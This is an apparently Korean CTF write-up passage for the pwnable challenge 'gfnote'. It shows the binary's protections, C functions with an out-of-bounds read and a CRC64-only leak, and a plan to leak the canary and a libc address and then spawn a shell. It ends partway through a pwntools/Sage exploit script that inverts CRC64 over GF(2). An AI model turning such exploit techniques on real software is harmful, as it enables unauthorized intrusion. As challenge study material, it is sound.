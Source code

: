 ## 2. Pwnable - gfnote


모든 보호기법이 걸려있고, 심볼이 제거되어있으며 ubuntu 24.04 환경에서 컴파일 됐습니다.
```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

```c
void read_data(char *buf) {
  safe_read(buf, 0x100);
}

void write_data(char *buf) {
  int d = safe_read_num();
  const int delta = 0x28;
  if (d % 8 != 0 || delta > d)
    return;
  printf("%lx\n", crc64(buf - 0x40, d));
}
```

해당 프로그램은 `read_data` 라는 함수로 입력을 받는데, OOB 취약점이 존재합니다. 즉, 허용된 크기보다 더 멀리 있는 메모리를 읽을 수 있지만, 이때 읽은 데이터의 Entropy를 모르는 상황입니다.

반대로` write_data` 라는 함수는 leak 시키는 기능을 하지만, 직접 데이터를 볼 수 있는 것이 아니라 스택 버퍼의 CRC64 값만 확인 가능합니다. 즉, 원본 데이터를 볼 수 없고 해당 데이터의 CRC64 체크섬만 얻을 수 있습니다.

Canary 주소와, 라이브러리 주소를 leak하고, system call을 통해 쉘을 획득하면 됩니다.

```py
import pwn

IP, PORT = "192.168.77.2", int(15557)

p = 0x42F0E1EBA9EA3693

def preprocess():
    R.<y> = GF(2 ** 64)
    P = PolynomialRing(GF(2), 'x')
    modulus = P(R.from_integer(p))
    F = PolynomialRing(GF(2), ["x"] + [f"a{i}" for i in range(64)])
    F.inject_variables()
    gens = F.gens()
    A = [gens[i + 1] for i in range(64)]
    modulus += x ** 64
    f = sum(A[i] * x ** i for i in range(64))
    f *= x ** 64
    f = f % modulus
    coeff_dict = {}
    for i in range(1,64):
        coeff = f.coefficient(x ** i)
        coeff_dict[i] = coeff
        f -= coeff * x ** i
    coeff_dict[0] = f
    M = []
    for i in range(64):
        coeff = coeff_dict[i]
        row = [coeff.coefficient(a) for a in A]
        assert len(row) == 64
        M.append(row)
    M = Matrix(GF(2), M)
    assert M.determinant() == 1
```